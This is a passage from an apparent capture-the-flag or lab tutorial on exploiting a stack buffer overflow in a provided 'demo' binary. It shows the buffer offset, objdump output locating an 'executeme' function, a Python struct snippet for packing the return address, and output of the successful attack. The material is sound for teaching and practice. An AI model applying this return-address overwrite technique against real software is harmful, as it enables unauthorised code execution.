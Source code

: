 **Great!**

We now know that we need to have **88 bytes** in our buffer before we overwrite the stack pointer.

## Step 3: Pointing the Stack Pointer to the `executeme` Function

Our goal is to overwrite the value on the stack pointer to be the address of the `executeme` function so that we execute it. We can figure out the address using `objdump` again since the PIE protection is disabled and the function will reliably load with the same address.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ objdump -d demo

demo:     file format elf64-x86-64

...

0000000000401142 <executeme>:
  401142:    55                       push   %rbp
  401143:    48 89 e5                 mov    %rsp,%rbp
  401146:    48 8d 3d bb 0e 00 00     lea    0xebb(%rip),%rdi        # 402008 <_IO_stdin_used+0x8>
  40114d:    e8 de fe ff ff           callq  401030 <system@plt>
  401152:    90                       nop
  401153:    5d                       pop    %rbp
  401154:    c3                       retq   

...
```

Copy the hexadecimal address `0000000000401142` next to the `<executeme>` and save it somewhere for when we develop our payload!

## Step 4: Writing a Python Script to Generate Our Payload

Now we have everything we need to generate our payload! Our payload will be 88 bytes of the character `"A"` (in can be any character) followed by the target address `0x0000000000401142` packed in **little-endian** byte order (this is because of how most operating systems work at a low level). You can generate the address payload using the `struct` module and the following code snippet.

```
import struct

payload_address = struct.pack('<Q', int('0x0000000000401142', base=16)
```

The rest of the python code will be left for you to complete. The following output was from my payload generating exploit code that saved the payload into a file called `exploit.bin` that I then piped into the vulnerable program.

```
┌──(ghostccamm㉿kali)-[~/…/challenge_files/provided_files/student_bofdev/demo]
└─$ ./demo < exploit.bin
Name:
Thanks for connecting AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAB@!
I go to go now, bye!
SUCCESSFUL BOF ATTACK! YAY :D
zsh: segmentation fault  ./demo < exploit.bin

```

If you have successfully exploited the `demo` program you can now do the main challenge!
